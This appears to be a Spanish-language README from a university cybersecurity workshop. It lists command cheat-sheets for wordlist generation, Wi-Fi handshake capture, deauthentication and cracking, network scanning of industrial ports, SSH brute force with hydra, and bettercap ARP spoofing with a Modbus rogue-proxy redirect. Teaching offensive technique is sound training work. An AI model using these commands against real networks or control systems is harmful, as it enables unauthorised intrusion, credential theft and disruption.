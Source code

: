 # udg-taller-ciberseguridad

## Presentaciones
- [Dia 01](/presentaciones/Presentación_dia_01.pdf)
- [Dia 02](/presentaciones/Presentación_dia_02.pdf)

## Creando diccionarios
### CEWL
```bash
cewl --min_word_length 4 --write ./passwords.txt --email -v <target>
```
### Wister
```bash
python3 -m venv venv
source venv/bin/active
pip install whister

wister -l #list types

wister -c 1 2 3 4 5 -w <w1> <w2> -o ./passwords_02.txt # merge words
wister -c 3 5 -i passwords.txt -o ./passwords_02.txt # merge file and low combinations
wister -c 1 2 3 4 5 -i passwords.txt -o ./passwords_02.txt # merge file
```


## Atacando redes wifi
```bash

sudo airmon-ng start wlp2s0 # monitor
iwconfig # wifi info

sudo airodump-ng wlp2s0mon ## Scan 2Ghz
sudo airodump-ng wlp2s0mon --essid=<ssid>  ## Scan 2Ghz and filter by regex 
sudo airodump-ng wlp2s0mon --essid-regex=<ssid> --band a ### Scan 5Ghz

## Monitor and capture a handshake
sudo airodump-ng wlp2s0mon -c <channel> --bssid <bssid> -w psk.pcap --output-format pcap 

## Send generic deauth packets, may not work in all scenarios
sudo aireplay-ng -0 0 -a <bssid> wlp2s0mon # broadcast
sudo aireplay-ng -0 0 -a <bssid> -c <client-mac> wlp2s0mon # to 1 client

## Cracking
aircrack-ng -w ./creds.txt --bssid=<bssid> ./psk.pcap-0*

sudo airmon-ng check kill ## stop

```

## Encontrando dispositivos en la red
```bash
netdiscover -i wlp2s0 -r 192.168.1.0/24
netdiscover -i wlp2s0 -p
sudo arp-scan -I wlp2s0 --localnet
```

## Explorando en la red
```bash
nmap -p 502,4840,80,443,8080,8443,1880 -T5 --open 192.168.1.0/24
nmap --script enip-info -sU -p 44818 <ip> # EtherNet/IP
```

## Atques de fuerza bruta
```bash
hydra -l root -P ./passwords.txt ssh://<ip>
```


## MITM
```bash
sudo bettercap -iface wlan0
sudo bettercap -iface wlan0 -caplet http-ui
```

| Orden | Descripción |
|-------|---------|
| net.show | Mostrar información sobre la red |
| net.probe on | Iniciar escaneo de host en la red |
| net.recon on | Leer periódicamente la tabla ARP del sistema para detectar nuevos hosts en la red. |
| set arp.spoof.targets 10.10.10.100,10.10.10.200 | Establecer un objetivo en la red | 
| set arp.spoof.internal true | Las conexiones locales entre ordenadores de la red también serán falsificadas, de lo contrario solo se falsificarán las conexiones que vayan hacia y desde la red externa. |
| arp.spoof on| Iniciar arp spoofing |
| arp.ban on | ARP spoofing en modo de prohibición, lo que significa que la conectividad del objetivo no funcionará. | 


### Modbus transparent proxy
```bash
set tcp.address 10.10.10.200
set tcp.port 502
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 502
tcp.proxy on
```

> Recuerda, tienes que correr un proxy modbus en local para que funcione `python3 modbus/rogue_server.py`